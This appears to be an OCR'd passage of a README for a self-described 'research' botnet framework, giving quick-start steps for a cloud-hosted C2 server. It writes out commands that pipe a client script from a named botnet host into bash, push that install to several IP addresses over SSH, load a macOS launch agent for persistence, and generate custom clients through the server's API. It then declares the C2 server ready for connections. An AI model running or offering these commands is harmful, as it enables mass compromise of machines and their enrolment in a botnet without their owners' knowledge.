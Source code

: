 ```bash
# Load launch daemon
launchctl load ~/Library/LaunchAgents/com.research.botclient.plist
```

## 🎯 Quick Start Commands

**Deploy 1 client (current machine):**
```bash
curl -s https://botnet-wqg2.onrender.com/download/client-$(uname -s | tr '[:upper:]' '[:lower:]') | bash
```

**Deploy to multiple IPs:**
```bash
echo "192.168.1.100 192.168.1.101 192.168.1.102" | xargs -n1 -I{} ssh user@{} "curl -s https://botnet-wqg2.onrender.com/install | bash"
```

**Generate custom client:**
```bash
curl -X POST https://botnet-wqg2.onrender.com/api/generate-client \
  -H "Content-Type: application/json" \
  -d '{"platform": "linux", "config": {"research_mode": true}}' \
  -o custom-client
```

## 🆘 Troubleshooting

**Client won't connect:**
- Check server URL: https://botnet-wqg2.onrender.com/health
- Verify research mode is enabled
- Check firewall settings

**Permission denied:**
- Ensure executable permissions: `chmod +x bot-client`
- Run as appropriate user (avoid root unless necessary)

**Can't download client:**
- Server may be starting up (wait 2-3 minutes)
- Check internet connectivity
- Try alternative download methods

## 🎉 You're Ready!

Your C2 server is running at **https://botnet-wqg2.onrender.com** and ready to accept client connections!

Choose your deployment method and start connecting clients to your cloud-hosted research framework! 🚀

